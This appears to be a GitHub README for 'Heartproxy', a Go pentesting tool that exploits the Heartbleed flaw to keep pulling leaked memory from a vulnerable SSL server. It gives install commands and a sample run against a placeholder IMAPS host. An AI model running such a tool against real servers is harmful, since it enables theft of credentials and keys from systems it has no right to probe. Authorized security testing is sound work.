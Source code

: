 Heartproxy
==========
Heartbleed TCP to SSL proxy that constantly pulls leaked memory.

Use for pentesting to dump live memory chunks during an ongoing connection.

Based on work of Filippo Valsorda at https://github.com/FiloSottile/Heartbleed

Install
=======
go get github.com/mver/Heartproxy

go install github.com/mver/Heartproxy

Synopsis
========
Leaking 63000 Bytes from a vulnerable IMAPS server: 
 
[foo@bar/term1]$ Heartproxy 8080 mail.vulnerable.com:993 64000
2014/04/10 14:25:18 Using leaksize 63000
Listening on 8080
2014/04/10 14:25:25 New connection from: localhost
2014/04/10 14:25:25 Connected to target...
2014/04/10 14:25:25 starting up heartbeat collector
2014/04/10 14:25:25 starting up clientToTarget collector
2014/04/10 14:25:25 starting up targetToClient collector
...



[foo@bar/term2]$ telnet localhost 8080
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
AUTH ...

